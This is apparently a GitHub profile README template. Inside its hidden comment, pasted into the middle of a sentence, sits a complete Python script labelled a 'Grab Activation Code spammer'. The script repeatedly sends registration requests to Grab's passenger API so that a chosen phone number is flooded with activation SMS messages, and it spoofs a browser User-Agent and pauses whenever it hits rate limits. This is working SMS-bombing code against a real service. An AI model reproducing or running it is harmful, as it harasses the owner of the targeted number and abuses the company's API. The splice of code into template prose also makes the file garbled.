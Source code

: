 - 👋 Hi, I’m @arab07
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
arab07/arab07 is a ✨ #!/usr/bin/env python3
# -*- code: utf-8 -*-

import sys
import time

import click
import requests

__author__ = 'loncat <me@lcat.dev>'

DEFAULT_REQ_DELAY = 60
GAC_REQ_URL = 'https://p.grabtaxi.com/api/passenger/v2/profiles/register'


@click.command()
@click.argument('phone_num', type=int)
@click.option('--delay',
              '-dl',
              default=DEFAULT_REQ_DELAY,
              help='delay between each request wave',
              type=int)
@click.option('--limit', '-li', help='amount of request to send', type=int)
@click.option('--country_code',
              '-cc',
              help='phone number country code',
              default='ID')
def main(phone_num, delay, limit, country_code):
    """
    This script will repeatedly send Grab Activation Code (GAC) to PHONE_NUM.
    PHONE_NUM must be a phone number in international format
    (example: 6281323323232 with 62 prefix as the country code)
    """
    i = 0
    click.secho(f'-- phone number: {phone_num}, country code: {country_code}',
                fg='cyan')
    while i == 0 or i < limit:
        res, reason, wait = send_gac_req(phone_num, country_code)
        long_res = 'success' if res else 'failed'
        click.secho(f'i = {i} ~> {long_res}: {reason}, sleep: {wait}',
                    fg='green' if res else 'red')
        if wait and (i == 0 or i < limit):
            time.sleep(delay)
        i += 1
    return


def send_gac_req(phone_num, cc):
    req_kwargs = {
        'data': {
            'phoneNumber': phone_num,
            'countryCode': cc,
            'name': 'test',
            'email': 'mail@mail.com',
            'deviceToken': '*'
        },
        'headers': {
            'User-Agent':
            ('Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 ('
             '+KHTML, like Gecko) Chrome/66.0.3359.117 Safari/537.36')
        }
    }
    try:
        req = requests.post(GAC_REQ_URL, **req_kwargs)
    except requests.exceptions.RequestException:
        return False, 'exception', True
    if req.status_code == 429:
        return False, 'reached limit', True
    elif req.status_code == 200:
        return True, '200 ok', True
    else:
        raise NotImplementedError(
            'something went wrong, please submit an issue.')


if __name__ == '__main__':
    click.secho(f'{sys.argv[0]} \u2014 Grab Activation Code (GAC) spammer',
                fg='black',
                bg='green')
    click.echo(' author\tloncat <me@lcat.dev>')
    click.echo(' url\thttps://github.com/p4kl0nc4t/Spammer-Grab\n')
    main() ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
